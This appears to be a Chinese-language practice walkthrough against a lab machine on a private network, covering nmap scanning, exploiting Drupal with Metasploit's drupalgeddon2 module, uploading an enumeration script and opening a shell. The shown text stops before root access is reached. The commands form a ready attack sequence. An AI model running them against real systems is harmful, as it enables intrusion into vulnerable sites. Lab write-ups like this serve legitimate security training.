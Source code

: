 ```
nmap 192.168.179.0/24
```

探测到陌生ip为192.168.179.156

## 内网端口探测

```
nmap -sS -p 1-65535 192.168.179.156		#全端口探测
```

发现到1898端口

浏览器访问一下http://192.168.179.156:1898/

发现网页底部有指纹，为Drupal框架

## MSF利用

打开msfconsole

```
search Drupal
```

![image-20230927104351325](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230927104351325.png)

```
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts 192.168.179.156
set rport 1898
run
```

![image-20230927104652888](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230927104652888.png)

成功进入到meterpreter

## 拿到root权限

bug.sh寻找主机漏洞，并显示漏洞cve号

上传kali里的bug.sh到靶机里，并改名

```
upload /root/bug.sh /tmp/1.sh
```

![image-20230927105053599](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230927105053599.png)

```
shell
pwd
cd /tmp
ls
bash 1.sh	#执行bug.sh脚本
```

